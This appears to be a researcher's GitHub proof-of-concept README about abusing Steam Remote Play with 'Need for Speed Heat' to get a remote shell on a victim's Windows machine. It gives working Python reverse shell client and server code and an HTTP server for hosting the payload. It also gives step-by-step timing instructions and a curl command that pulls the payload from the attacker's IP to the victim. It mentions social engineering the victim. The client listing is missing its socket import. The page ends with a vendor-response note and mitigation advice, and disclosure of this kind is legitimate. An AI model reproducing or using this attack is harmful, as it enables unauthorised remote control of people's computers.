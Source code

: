 The vulnerability I'm exploring relates to remote Steam access for games. In this particular case, I used the same account, "chibataglini," which is connected to two different machines: the victim's Windows machine and the attacker's Linux machine. For the purposes of this Proof of Concept (POC), I'm conducting it locally for simplicity. The attack vector is the game "Need for Speed Heat." I tested it with other games, but the same effect couldn't be achieved. Hence, I'm using "Need for Speed Heat" as the attack vector. Therefore, it's essential for "Need for Speed Heat" to be downloaded on both machines; otherwise, the attack won't be possible. In a real-world scenario, social engineering would be required to convince the victim to download the game, but that's not within the scope of this POC.

**Prerequisites:**

**Victim's Computer**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Steam application running.
- Python installed (used for the reverse shell). Metasploit can also be used, but it may be detected by antivirus software.

**Attacker's Machine**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Python installed.

**Proof of Concept (POC)**

We will start by creating Python server and client scripts to perform the reverse shell. I've attached these scripts; be sure to change the "SERVER_HOST" variable to the attacker's machine's IP. Save these two scripts in a Linux directory.
Code script reverse shell: file **client.py**

```python
import subprocess

SERVER_HOST = "xxx.xxx.xx.xx"
SERVER_PORT = 8080
BUFFER_SIZE = 1024

s = socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))

message = s.recv(BUFFER_SIZE).decode()
print("Server:", message)

while True:
    command = s.recv(BUFFER_SIZE).decode()
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode())
s.close()
```

Open a terminal in the directory where these two files are saved, and run the following command to start a server:

```shell
python3 -m http.server 80
```

This is important because we'll download the "client.py" script on the victim's machine for the reverse shell. Open a new terminal to run our reverse shell server:

```shell
python3 servidor.py
```
file **servidor.py**:
```python
import socket
SERVER_HOST = "0.0.0.0"
SERVER_PORT = 8080
BUFFER_SIZE = 1024
s = socket.socket()


s.bind((SERVER_HOST, SERVER_PORT))

s.listen(5)
print(f"Listening as {SERVER_HOST}:{SERVER_PORT} ...")

client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Conectado!")

message = "Conexao estabelecida com sucesso!".encode()
client_socket.send(message)

while True:
    command = input("Digite um comando: ")
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    results = client_socket.recv(BUFFER_SIZE).decode()
    print(results)
client_socket.close()
s.close()
```

1. Open the Steam application on the attacker's machine.
2. Open Steam on the Linux machine.
3. Navigate to the "Need for Speed" game.
4. Now comes the critical part where the vulnerability becomes apparent. While the game is loading on the victim's system, we have a small window of time to execute our attack.
5. a-)  Click on the "Connect"
![Connect](img/connect.png)

If he already connects to the victim's machine, do step 6. If he freezes, do step 12. If he logs in and out, do step 6)
6. Click on the "Stream" button (Since I'm Brazilian and use the translated version of Steam, I'm not sure of the exact name of the button in English, but I demonstrate it in the video. I apologize for this detail.).
8. Once the game streaming begins, access to the Windows machine is possible.
9. If the Windows machine appears, take advantage of this brief window to open PowerShell (you have approximately 3 to 10 seconds to do this). Use the shortcut "Windows+R," type "powershell.exe," and press Enter.
10. With PowerShell open, download the reverse shell file from the attacker's machine using the following command:

```shell
curl http://attacker_ip/client.py -o client.py
```

10. Use the Python command to execute the "client.py" file to perform the reverse shell.

```shell
python3 client.py
```

11. Now, return to the Linux machine, where the terminal with the reverse shell server running will give you access to the Windows machine.
![reverse shell](img/poc_shellreverse.png)

12. **Note:** If the connection is interrupted, it's likely because the game has finished loading on the victim's machine. In this case, you won't be able to run commands on the Windows machine anymore. To continue, stop the game on the Linux machine and repeat steps 5 and 6 to resume from where you left off. The attached video demonstrates this process.
![reverse shell](img/stop.png)

## Video POC

Video showing how to hack the victim's machine.

![reverse shell](img/POC_shellReverse.gif)

## Response from the Steam

However, after reporting this vulnerability, the response from the Steam team was as follows:

![reverse shell](img/report_steam.png)

Therefore, I recommend disabling the Steam Remote Play feature if you do not use it.
I will continue studying this vulnerability for more general cases. As soon as I have new updates, I will post them here.
